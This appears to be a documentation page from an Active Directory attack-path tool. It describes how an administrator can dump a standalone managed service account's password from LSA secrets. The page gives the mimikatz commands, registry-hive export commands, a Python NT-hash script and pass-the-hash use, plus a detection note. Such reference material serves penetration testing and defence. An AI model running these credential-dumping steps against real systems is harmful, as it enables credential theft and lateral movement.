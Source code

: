 ---
title: DumpSMSAPassword
description: "A computer with this indicates that a Standalone Managed Service Account (sMSA) is installed on it."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

An actor with administrative privileges on the computer can retrieve the sMSA’s password by dumping LSA secrets.

## Abuse Info

From an elevated command prompt on the computer where the sMSA resides, run mimikatz then execute the following commands:

```bash
privilege::debug
token::elevate
lsadump::secrets
```

In the output, find _\_SC\_\{262E99C9-6160-4871-ACEC-4E61736B6F21}__ suffixed by the name of the targeted sMSA. The next line contains _cur/hex :_ followed with the sMSA’s password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using a small python script:

```bash
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

Execute it like so:


```bash
python3 nt.py 35f3e1713d61...
```

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of the _SYSTEM_ and _SECURITY_ registry hives from an elevated prompt:


```bash
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

Transfer the files named _SYSTEM_ and _SECURITY_ that were saved at _%temp%_ to another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the following command to obtain the hex-encoded password:

```bash
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## Opsec Considerations

Access to registry hives can be monitored and alerted via event ID 4656 (A handle to an object was requested).

## References

* [https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html](https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
